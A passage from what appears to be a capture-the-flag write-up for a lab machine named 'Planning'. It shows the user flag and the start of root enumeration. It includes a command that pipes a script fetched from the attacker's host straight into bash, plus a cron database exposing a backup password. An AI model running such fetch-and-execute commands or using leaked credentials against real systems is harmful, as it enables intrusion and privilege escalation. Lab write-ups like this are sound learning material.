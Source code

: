 ```
enzo@planning:~$ cat user.txt 
e********************f
```

## Root

Trying to see with linPEAS I didn't find anything that I could use at first glance... But I had noticed two things, the first is that there were some listening ports that we couldn't access at the moment and then a database that I didn't know, I didn't understand what it was:
```
$ curl http://10.10.14.194/linpeas.sh | bash

...                
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN       
...
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data 
... 
```

At first glance I didn't know what this database was, so I opened it and noticed something:

```
$ cat /opt/crontabs/crontab.db | jq

{                                                                             
  "name": "Grafana backup",                                                      
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",    
  "schedule": "@daily",                                                         
  "stopped": false,                                                            
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Uniersal Time)",     
  "logging": "false",                                                        
  "mailing": {},                                                             
  "created": 1740774983276,                                                 
  "saved": false,                                                          
  "_id": "GTI22PpoJNtRKg0W"  
}                                                                                                                                                            
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```
